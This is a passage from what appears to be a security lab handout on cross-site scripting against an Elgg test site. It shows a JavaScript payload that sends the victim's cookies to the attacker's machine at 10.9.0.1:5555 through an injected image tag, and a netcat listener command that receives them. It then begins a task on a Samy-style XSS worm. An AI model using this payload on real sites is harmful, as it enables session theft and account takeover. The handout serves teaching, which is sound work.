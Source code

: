 In the previous task, the malicious JavaScript code written by the attacker can print out the user’s cookies,
but only the user can see the cookies, not the attacker. In this task, the attacker wants the JavaScript code to
send the cookies to himself/herself. To achieve this, the malicious JavaScript code needs to send an HTTP
request to the attacker, with the cookies appended to the request.
    
We can do this by having the malicious JavaScript insert an _<img>_ tag with itssrcattribute set to the
attacker’s machine. When the JavaScript inserts theimgtag, the browser tries to load the image from the
URL in the _src_ field; this results in an HTTP GET request sent to the attacker’s machine. The JavaScript
given below sends the cookies to the port 5555 of the attacker’s machine (with IP address _10.9.0.1_),
where the attacker has a TCP server listening to the same port.
```
<script>document.write(’<img src=http://10.9.0.1:5555?c=’
+ escape(document.cookie) + ’ >’);
</script>
```
A commonly used program by attackers is _netcat_ (or _nc_) , which, if running with the "_-l_" option,
becomes a TCP server that listens for a connection on the specified port. This server program basically


prints out whatever is sent by the client and sends to the client whatever is typed by the user running the
server. Type the command below to listen on port _5555_ :
```
$ nc -lknv 5555
```
The _-l_ option is used to specify that _nc_ should listen for an incoming connection rather than initiate a
connection to a remote host. The _-nv_ option is used to have _nc_ give more verbose output. The _-k_ option
means when a connection is completed, listen for another one.

### 3.5 Task 4: Becoming the Victim’s Friend

In this and next task, we will perform an attack similar to what Samy did to MySpace in 2005 (i.e. the Samy
Worm). We will write an XSS worm that adds Samy as a friend to any other user that visits Samy’s page.
This worm does not self-propagate; in task 6, we will make it self-propagating.
    
In this task, we need to write a malicious JavaScript program that forges HTTP requests directly from
the victim’s browser, without the intervention of the attacker. The objective of the attack is to add Samy as
a friend to the victim. We have already created a user called Samy on the _Elgg_ server (the user name is
_samy_).
    